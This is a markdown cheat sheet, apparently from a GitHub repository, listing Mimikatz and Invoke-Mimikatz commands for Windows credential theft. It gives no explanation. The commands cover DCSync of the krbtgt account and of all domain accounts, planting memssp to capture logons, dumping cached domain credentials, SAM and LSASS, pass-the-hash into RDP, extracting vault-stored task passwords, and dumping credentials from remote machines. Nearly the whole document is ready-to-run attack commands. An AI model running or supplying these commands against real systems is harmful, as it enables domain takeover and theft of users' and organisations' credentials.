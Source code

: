 # Mimikatz
## Mimikatz.exe DCSync krbtgt
```
mimikatz.exe "lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt" "exit"
```

## Mimikatz.exe Monitor Logon
```
mimikatz.exe "privilege::debug" "misc::memssp" "exit"
```

## Mimikatz.exe Dump mscash - Cached Domain Credentials(DCC2)
```
mimikatz.exe "lsadump::cache" "exit"
```

## Mimikatz.ps1 DCSync krbtgt
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt"'
```

## Mimikatz.ps1 DCSync all
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /all /csv"'
```

## Mimikatz.ps1 RDP pth
```
Invoke-Mimikatz -Command "sekurlsa::pth /user:<username> /domain:<domain> /ntlm<nthash> /run:'mstsc.exe /restrictedadmin'"
```

## Mimikatz.ps1 Dump SAM and Lsass
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"  "lsadump::sam" "exit"'
```

## Mimikatz.ps1 Dump passwords of scheduled tasks
```
Invoke-Mimikatz -Command '"vault::cred /patch"'
```

## Mimikatz.ps1 Dump remote machine
```
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```
